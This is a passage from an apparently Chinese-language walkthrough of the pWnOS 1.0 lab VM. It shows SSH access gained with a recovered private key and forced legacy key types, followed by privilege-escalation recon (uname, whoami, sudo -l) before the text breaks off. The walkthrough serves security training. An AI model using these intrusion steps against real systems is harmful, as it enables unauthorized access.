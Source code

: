     ┌──(kali㉿kali)-[~/Documents/WalkThrough/pWnOS1.0]
    └─$ ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679 obama@192.168.2.138 -oHostKeyAlgorithms=ssh-rsa,ssh-dss
    sign_and_send_pubkey: no mutual signature supported
    obama@192.168.2.138's password: 
    Permission denied, please try again.
    obama@192.168.2.138's password: 
    Permission denied, please try again.
    obama@192.168.2.138's password: 
    obama@192.168.2.138: Permission denied (publickey,password).
    
    ```

-   使用私钥后还需要密码，开启`debug`模式来进行排错

    -   >   └─$ ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679 obama@192.168.2.138 -oHostKeyAlgorithms=ssh-rsa,ssh-dss -vv
        >
        >   参数说明：
        >
        >   -vv 查看详细的连接信息

-   ![image-20230526190317586](https://raw.githubusercontent.com/r0o983/images/main/image-20230526190317586.png)

-   获得初始shell

-   ```shell
    └─$ ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679 obama@192.168.2.138 -oHostKeyAlgorithms=ssh-rsa,ssh-dss -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss
    Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    Last login: Thu Jun 19 10:10:29 2008
    obama@ubuntuvm:~$ 
    
    参数说明：
    	-oPubkeyAcceptedKeyTypes 指定主机接受的key类型
    ```

-   使用内核提权

-   ```shell
    obama@ubuntuvm:~$ ip a
    1: lo: <LOOPBACK,UP,10000> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,10000> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:5e:18:c9 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.138/24 brd 192.168.2.255 scope global eth0
        inet6 fe80::20c:29ff:fe5e:18c9/64 scope link 
           valid_lft forever preferred_lft forever
    obama@ubuntuvm:~$ uname -a
    Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
    obama@ubuntuvm:~$ whoami
    obama
    obama@ubuntuvm:~$ sudo -l
    [sudo] password for obama:
    obama@ubuntuvm:~$ 
    